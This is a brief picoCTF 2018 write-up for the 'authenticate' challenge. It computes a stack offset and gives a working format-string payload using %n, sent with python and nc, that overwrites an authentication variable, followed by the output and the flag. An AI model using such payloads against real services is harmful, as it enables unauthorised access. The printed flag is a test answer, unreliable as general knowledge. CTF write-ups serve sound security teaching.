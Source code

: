 > authenticate - Points: 350 - (Solves: 153)
> Can you authenticate to this service and get the flag? Connect with nc 2018shell1.picoctf.com 52398. Source.

Authenticated variable address: `0x0804A04C`

buffer location before fgets:
0xffffd550 - 0xffffd57c = 44
44 / 4 = 11

We can now craft our payload
```
% (python -c "print '\x4c\xA0\x04\x08' + '%11\$n'") | nc 2018shell1.picoctf.com 52398
Would you like to read the flag? (yes/no)
Received Unknown Input:

L
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_0bec1698}
```

Flag: `picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_0bec1698}`
